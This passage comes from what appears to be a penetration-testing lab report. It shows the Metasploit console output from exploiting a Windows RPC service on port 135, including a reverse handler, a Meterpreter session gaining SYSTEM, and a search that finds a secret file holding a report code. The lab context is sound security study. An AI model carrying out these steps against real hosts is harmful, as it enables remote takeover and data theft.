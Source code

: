 After we ran the exploit, it started sending exploit and showed the information below:
\par \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
[*] Started reverse handler on 10.11.12.29:4444 
[*] Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.233.106[135] ...
[*] Bound to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.233.106[135] ...
[*] Sending exploit ...
[*] Sending stage (752128 bytes) to 192.168.233.106
[*] Meterpreter session 1 opened (10.11.12.29:4444 -> 192.168.233.106:1183) at 2014-03-04 21:13:04 +0100
\end{lstlisting}
\par Now we can use meterpreter command now. We type \textit{getuid} and get \lstinline{NT AUTHORITY\SYSTEM}, which means that we've got the root access.
\par After that, we use the command \textit{search -f secret.txt} and found the file. We opened the file and it showed that the code needed to be included in the report is COUDHc7QeD6sk.




